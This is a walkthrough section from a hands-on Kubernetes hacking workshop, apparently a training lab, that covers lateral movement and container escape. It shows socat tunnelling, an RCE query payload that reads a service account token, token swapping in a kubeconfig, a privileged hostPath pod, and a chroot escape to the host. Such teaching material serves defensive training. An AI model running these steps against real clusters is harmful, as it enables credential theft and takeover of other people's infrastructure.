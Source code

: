 # Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through

<!-- TOC -->
* [Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through](#hands-on-hacking-k8s-workshop--section-2--exploit-walk-through)
  * [Part 6: Escaping our Namespace](#part-6--escaping-our-namespace)
    * [Checkpoint](#checkpoint)
      * [What we already knew:](#what-we-already-knew-)
      * [New info:](#new-info-)
      * [Timeline of Doom](#timeline-of-doom)
  * [Next step](#next-step)
<!-- TOC -->

## Part 6: Escaping our Namespace

Now that we know about another port 5000 listener in some other Namespace, we will use some simple TCP
tunneling to attack it.

1. In the exec shell still open from the prior step, we will use the `socat` tool to create a tunnel
   from it toward this new listener: `socat tcp-listen:5001,reuseaddr,fork tcp:10.244.162.132:5000` _(replace `10.244.162.132` with the IP from your nmap results)_
   ```shell
   root@snyky:~# socat tcp-listen:5001,reuseaddr,fork tcp:10.244.162.132:5000
   ```

2. In a new shell, set your Kubernetes config variable and create a port-forward into the snyky pod:
   ```shell
   $ export KUBECONFIG=demokubeconfig
   $ kubectl port-forward snyky 5001 -n secure
   Forwarding from 127.0.0.1:5001 -> 5001
   Forwarding from [::1]:5001 -> 5001
   ```
   With these tunnels in place, any TCP traffic connecting to your local machine at port 5001 will be
   forwarded to the snyky pod at port 5001.  Then, the `socat` process will forward that traffic from
   the snyky pod to the mystery service on port 5000.


3. Open http://localhost:5001 in your browser...
   ![](media/02-06-03-sameapp.png)
   The same app _is_ running there! (FYI: we didn't need the `/webadmin` context because we aren't traversing
   an ingress)


4. Let's see if this copy of the application has the RCE vulnerability by looking for it's token: http://localhost:5001?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token
   ![](media/02-06-04-token.png)
   Yes it is and now we have another token we can experiment with! 😈


5. Go ahead and kill the port-forward, close that terminal and kill socat processes and exit the exec session from the snyky
   pod. We won't be needing them anymore.


6. Open the `demokubeconfig` file in an editor comment out the existing `token:` and insert a new line with the token in
   your browser from the new server.
    ```yaml
    ...
    users:
    - name: snyk
      user:
        token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJhdWQiOlsiaHR0c...
    #    token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJhdWQiOlsiaHR0c...
    ```
   Save and exit your editor.


7. With this new token in place, let's try to list pods in the `default` Namespace again: `kubectl get pods`
    ```shell
    $ kubectl get pod
    NAME                        READY   STATUS    RESTARTS   AGE
    webadmin-69dd65c7f9-86p58   1/1     Running   0          8h
    ```
   Well look at that! It appears that someone deployed a copy of the application into the `default` Namespace and, thus,
   we now have a `default` ServiceAccount token at our disposal!

8. We should see what permissions this new token gives us with `kubectl auth can-i --list`
    ```shell
    $ kubectl auth can-i --list
    Resources                                       Non-Resource URLs                     Resource Names   Verbs
    *.*                                             []                                    []               [create get watch list patch delete deletecollection update]
    ```
   Well, isn't that nice!  Full access to all (`*.*`) resources in the default Namespace! This happens more often that
   you might think because most developers only write RBAC restrictions for resources in the Namespaces their applications
   live in, leaving the `default` to me managed by someone else. Unfortunaly—for this cluster—the default RBAC for the `default` 
   `ServiceAccount` is wide open!

9. Now we can try to deploy a pod in the `default` Namespace; let's go ahead and try that
   [privileged Pod](../demo_yamls/nonroot_priv.yaml) again and see if it works:
   `kubectl apply -f demo_yamls/nonroot_priv.yaml`
   ```shell
   $ kubectl apply -f demo_yamls/nonroot_priv.yaml
   pod/nonroot-priv created
   
   $ kubectl get pods
   NAME                        READY   STATUS    RESTARTS   AGE
   nonroot-priv                1/1     Running   0          5s
   webadmin-69dd65c7f9-86p58   1/1     Running   0          8h
   ```
   That appears to have worked which indicates that PSA restriction in the `default` Namespace are relaxed/non-existant.


10. Exec into this pod and see what we can do: `kubectl exec -it nonroot-priv -- bash`
   ```shell
   $ kubectl exec -it nonroot-priv -- bash
   To run a command as administrator (user "root"), use "sudo <command>".
   See "man sudo_root" for details.
   
   snyky@nonroot-priv:/$ sudo su
   root@nonroot-priv:/# ps ax
       PID TTY      STAT   TIME COMMAND
         1 ?        Ssl    0:00 /usr/local/bin/gotty --config /opt/gotty.conf /bin/bash
        17 pts/0    Ss     0:00 bash
        30 pts/0    D+     0:00 sudo su
        31 pts/1    Ss     0:00 sudo su
        32 pts/1    S      0:00 su
        33 pts/1    S      0:00 bash
        35 pts/1    R+     0:00 ps ax
   ```
   Looking good so far, but if you look at the manifest for this pod, we are mounting a host volume at path `/chroot`:
   ```yaml
   ...
       volumeMounts:
         - mountPath: /chroot
           name: host
       securityContext:
         runAsUser: 999
         privileged: true
     volumes:
     - name: host
       hostPath:
         path: /
         type: Directory
   ```
   ... so let's `chroot /chroot` and see what we get...
   ```shell
   root@nonroot-priv:/# chroot /chroot
   root@nonroot-priv:/# ps ax
       PID TTY      STAT   TIME COMMAND
         1 ?        Ss     0:00 /sbin/init
        83 ?        S<s    0:01 /lib/systemd/systemd-journald
        95 ?        Ssl    6:47 /usr/local/bin/containerd
       167 ?        Ssl    8:32 /usr/bin/kubelet --bootstrap-kubeconfig=/etc/kubernetes/bootstrap-kubelet.conf --kubeconfig=/etc/kubernetes/kubelet.conf --conf
       250 ?        Sl     1:11 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id f6e4526e4b313c3cb9c6dbbb1d0c8050e10611a8f567d6148485acda80b2713a -
       269 ?        Ss     0:00 /pause
       500 ?        Sl     0:09 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id 18aadb6e8ef7b60069841da12737e66bea74891089126081d2208d07f5a92c42 -
       519 ?        Ss     0:00 /pause
       549 ?        Ssl    0:11 /usr/local/bin/kube-proxy --config=/var/lib/kube-proxy/config.conf --hostname-override=kind-worker
       994 ?        Ss     0:00 /usr/local/bin/runsvdir -P /etc/service/enabled
    ...
   ```
   Those are the processes running on the host.  We've effectively escaped this container by mounting the host `/` volume
   into the container and `chroot`ing to it. _(In case you weren't aware, `ps` uses the `/proc` filesystem for its PID info)_

### Checkpoint
Let's take a moment to collect our notes and track our progress.

#### What we already knew:
* An application with an RCE vulnerability is available to us on port 80
* The application is running in a container on a Kubernetes cluster
* The application is behind a service listening on port 5000
* The Kubernetes api-server internal IP address 
* The IP address of the container/pod the application is running in
* The ServiceAccount and Pod configurations in the `secure` Namespace is using the default `automountServiceAccountToken` setting of `true`
* Using a found ServiceAccount token, we were able to connect to the cluster's api-server
* The api-server returned Endpoint information exposing its external IP _(although our workshop Kind cluster obscures this in practice)_
* The account for the token gathered has limited access in the `default` Namespace
* The account is from a Namespace titled `secure` where it has broad access.
* The application container is somewhat hardened by running as a non-root user and its image does not include `sudo`
* The application container is not running with a `readOnlyRootFilesystem:true` so it's mutable
* There are PSA Baseline configurations in place in the `secure` Namespace that restrict root users and privileged mode containers/pods as well as privilege escalation via SUID
* Another application is listening at port 5000 and it is **not** in the `secure` Namespace. (We know
  it is not in the same Namespace because we would have seen it via `kubectl get`.)  We don't know what
  Namespace it is in yet.
* Apparently NetworkPolicy is either not deployed or is far too loose to allow that scan to find listeners
  outside the Namespace.
 
#### New info:
* The new IP address is another copy of the vulnerable application
* We've found another ServiceAccount token from this copy of the application 
* This copy of the application is running in the `default` Namespace
* The ServiceAccount and Pod configurations in the `default` Namespace is using the default `automountServiceAccountToken` setting of `true`
* RBAC is wide open for this ServiceAccount in the `default` Namespace
* PSA restrictions are lax/non-existant in the `default` Namespace, allowing us to deploy privileged containers that we can easily escape.

![](media/02-06-Checkpoint-1.png)

#### Timeline of Doom
Updated progress toward total ownership of the target cluster.
![](media/02-06-Timeline-1.png)

## Next step
In the [next step](02g-exploit.md) we cross the finish line by taking over the cluster!
